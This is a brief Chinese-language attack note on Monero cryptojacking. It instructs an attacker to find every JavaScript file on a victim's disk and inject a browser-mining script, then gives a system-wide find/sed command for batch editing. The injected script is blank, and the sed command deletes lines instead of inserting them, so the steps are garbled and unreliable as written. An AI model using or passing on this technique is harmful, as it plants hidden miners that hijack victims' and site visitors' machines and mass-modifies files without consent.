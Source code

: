 ### Monero JavaScript网页挖矿

在Victim全盘查找js文件，并插入网页挖矿JS脚本document.write('');


#### 批量替换命令

~~~
find / -name '*.js' | xargs sed -i 's/^document.*OMINEId.*e02cf4ce91284dab9bc3fc4cc2a65e28.*$//g'
~~~
